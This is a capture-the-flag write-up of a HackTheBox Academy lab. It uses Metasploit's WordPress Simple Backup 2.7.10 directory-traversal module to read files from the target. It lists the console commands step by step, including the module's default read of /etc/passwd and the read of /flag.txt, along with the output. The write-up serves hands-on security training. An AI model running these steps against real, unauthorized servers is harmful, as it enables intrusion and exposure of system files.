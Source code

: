 ```yaml
---
title: "Public Exploits"
description: Search for plugin exploits
date: 2023-08-02 00:00:00+0000
image: /assets/images/public-exploits/Metasploit.png
categories: [Easy, HackTheBox]
tags: [HackTheBox, Metasploit, plugins]
---
```


### Introduction
Welcome to yet another writeup where I cover an important tool used by hackers to exploit vulnerabilities on different systems: [Metasploit](https://www.metasploit.com/) In this challenge, part of the "Getting started" series on HackTheBox Academy, we will be delving into the realm of public exploits and uncovering the power of Metasploit.

_Disclaimer: The content presented in this article is for educational purposes only and does not endorse or encourage any form of unauthorized access or malicious activity._

### Public exploits Challenge.
The challenge instructions were simple: "Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file." The main focus of this challenge is to demonstrate the ability to identify vulnerabilities and effectively exploit them. Let's begin our journey by examining the target IP address and visiting the associated webpage.
![chall desc](/assets/images/public-exploits/PublicExploits.jpg)

### Observations & Findings
Upon accessing the webpage, the very first thing that caught our attention was a version number and a brief description of a WordPress service. Drawing from our knowledge of how to find and exploit publicly available vulnerabilities, we swiftly launched the Metasploit console to search for an exploit relevant to this specific version.
![chall blog](/assets/images/public-exploits/PublicExploits0.jpg)

```
──(dr0idbot㉿kali)-[~]
└─$msfconsole
- - - - - SNIP - - - - -

msf6 > search exploit wordpress 2.7.10

Matching Modules
================

   #  Name                                               Disclosure Date  Rank    Check  Description
   -  ----                                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wp_simple_backup_file_read                   normal  No     WordPress Simple Backup File Read Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/http/wp_simple_backup_file_read                                       

msf6 > 
```
Metasploit came back with results, indicating that there is a publicly available exploit matching the version we found on the website.

Notice the command used to spin up metasploit **msfconsole** after its up and running, we run the command **search exploit wordpress 2.7.10** to see if there are any publicly available exploits for this plugin version. Sure enough, metasploit brings back results and slight description of what we are looking for matching the info on the website we had visited earlier on.

We have an option to see information about that exploit before using it, to see what they payload does. For that we use the command **info** plus the index of the exploit itself.
```
msf6 > info 0

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  DEPTH      6                yes       Traversal Depth (to reach the root fold
                                        er)
  FILEPATH   /etc/passwd      yes       The path to the file to read
  Proxies                     no        A proxy chain of format type:host:port[
                                        ,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.me
                                        tasploit.com/docs/using-metasploit/basi
                                        cs/using-metasploit.html
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connecti
                                        ons
  TARGETURI  /                yes       The base path to the wordpress applicat
                                        ion
  THREADS    1                yes       The number of concurrent threads (max o
                                        ne per host)
  VHOST                       no        HTTP server virtual host

Description:
  This module exploits a directory traversal vulnerability in WordPress Plugin
  "Simple Backup" version 2.7.10, allowing to read arbitrary files with the
  web server privileges.
- - - - - SNIP - - - - -
```
As you can see, a bunch of information is given about this particular exploit with a number options that we need to set in order for the payload to work on our target. Next we use the command **use** plus the index of the exploit we have picked for the exploitation. After selection we set the options that are required by metasploit before executing the payload.

```
msf6 > use 0
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set FILEPATH /flag.txt
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RHOSTS 94.237.49.11
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RPORT 41884

```

After obtaining information about the exploit, including the required options, we set the necessary values to ensure the payload will work against our target.
With all the options set, we verified the details and executed the payload on the target.

### Solution/Flag
Upon successful execution of the payload, the Metasploit console provided us with the following output:
```
[+] File saved in: /home/papab3ar/.msf4/loot/20230803014901_default_94.237.49.11_simplebackup.tra_422018.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
Using the command **cat**, we accessed the directory where the file was saved and retrieved the contents of the flag, thus completing the challenge.
![chall blog](/assets/images/public-exploits/PublicExploits1.jpg)

### Conclusion
Metasploit proved to be a powerful tool during this challenge, allowing us to search for and exploit publicly available vulnerabilities effortlessly. It demonstrates the significance of staying vigilant against potential threats and the importance of secure coding practices for developers.

For a deeper understanding of Metasploit and its capabilities, you can refer to its official documentation [here](https://docs.metasploit.com/)

In conclusion, this challenge provided an excellent opportunity to apply web enumeration techniques, uncover hidden information, and identify potential vulnerabilities. As ethical hackers, the quest for knowledge and continuous learning is paramount. Happy hacking, and never stop learning!

dr0idbot out.

